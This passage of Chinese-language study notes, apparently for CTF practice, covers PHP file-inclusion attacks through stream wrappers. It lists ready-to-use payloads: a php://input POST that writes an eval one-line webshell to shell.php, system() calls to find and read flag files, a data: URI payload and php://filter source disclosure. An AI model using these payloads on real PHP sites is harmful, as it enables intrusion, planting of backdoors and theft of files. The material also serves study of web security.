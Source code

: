     - php:// 访问输入输出流

    - phar:// php归档

    - zlib:// 压缩流

    - data:// 数据

    - ssh2:// security shell2

    - expect:// 处理交互式的流

    - glob:// 查找匹配的文件路径

  - 常用

    - <font color='red'>php://input</font>

      它是个可以访问请求的原始数据的只读流，即获取post传过去的数据

      - 利用条件：allow_url_include = on , fopen不做要求
        - 利用方式：`include.php?file=php://input`,之后再传POST数据

      - POST：

        ```php
        <?php 代码 ?>
        
        <?php print_r(scandir(".")) ; ?>  打印当前目录所有文件
        
        <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"]); ?>');?>  写入一句话木马文件
        
        <?php echo readfile('../../../flag'); ?> 读取并显示文件
        
        <?php system('find / -name flag*'); ?> 调用系统命令
        ```

    - <font color='red'>data:URI schema</font> （可以绕过php字符）

      - 利用条件：php>=5.2,allow_url_include/fopen=on
      - 利用方式:`file=data:text/plain, 代码`
      - `file=data:text/plain;base64,<?php system('cat flag.php');`
    
    - <font color='red'>php://filter</font>
    
      一般用它来读取源码，不过要先经过base64加密，得到结果后再解密
    
      - 利用方式:`=php://filter/read=convert.base64-encode/resource=文件名`
      - **常用来查看不被php解析显示的信息**
      - `php://filter/write=convert.base64-decode/resource=`
      - 可以将base64的字符串解码后写入resource的文件里
    
    - <font color='red'>phar://</font>
    
      解析压缩包内的文件
    
      - 利用条件：php>=5.3.0
    
      - phar://shell.zip/shell.txt

- 四、通过session文件包含getshell

  - session简介

